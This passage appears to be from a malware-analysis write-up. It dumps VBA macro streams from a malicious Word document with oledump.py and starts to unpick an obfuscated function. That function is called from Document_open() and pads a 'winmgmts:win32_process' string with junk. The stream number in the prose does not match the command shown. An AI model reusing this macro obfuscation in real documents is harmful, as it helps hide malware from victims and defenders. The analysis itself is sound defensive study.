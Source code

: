 ## Onto the main event

> What malware family was this maldoc attempting to drop?

I figured that the way for me to determine the answer for the question above is to start investigating the macro codes included in the document.

I knew from the previous question that the entry point to begin the execution of the macros is with the function `Document_open()`. The next step is to look for this entry point and go through the code to understand what the macro is doing.

To view the contents of a stream, I used the command below:

```console
$ oledump.py sample.bin -s 13 -v
Attribute VB_Name = "diakzouxchouz"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub _
Document_open()
boaxvoebxiotqueb
End Sub
```
In the above output, I saw that `Document_open()` contains a single line of code which is a call to function `boaxvoebxiotqueb'`. This function is included in stream `15` which can be viewed with the command:

```vba
$ oledump.py sample.bin -s 13 -v
Attribute VB_Name = "govwiahtoozfaid"
Function boaxvoebxiotqueb()
gooykadheoj = Chr(roubhaol.Zoom + Int(5 * 3))
Dim c7�ATOQe2�j As Integer
c7�ATOQe2�j = 6
Do While c7�ATOQe2�j < 6 + 2
c7�ATOQe2�j = c7�ATOQe2�j + 5: DoEvents
Loop
haothkoebtheil = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqm2342772g3&*gs7712ffvs626fqgm2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqt2342772g3&*gs7712ffvs626fq" + gooykadheoj + "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" + roubhaol.joefwoefcheaw + "2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqc2342772g3&*gs7712ffvs626fqes2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq"
...
```

The above output contains more lines of what looks like gibberish code. Upon further inspection I realized that it's actually obfuscated. I can see common coding patterns which tells me that I could make sense of the code if I step through it and organize it so it is easy to understand.
